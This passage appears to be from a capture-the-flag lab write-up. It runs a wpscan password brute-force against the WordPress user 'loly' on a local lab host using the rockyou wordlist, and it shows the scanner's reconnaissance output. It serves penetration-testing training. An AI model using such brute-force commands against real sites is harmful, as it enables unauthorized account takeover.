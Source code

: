 The only user here appears to be loly. Brute force with wpscan and rockyou:

```bash
$ wpscan --url http://loly.lc/wordpress/ -e u,ap --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.122.121]
[+] Started: Sat Mar  4 11:04:54 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://loly.lc/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://loly.lc/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'

[+] WordPress theme in use: feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2022-02-16T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.3
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
```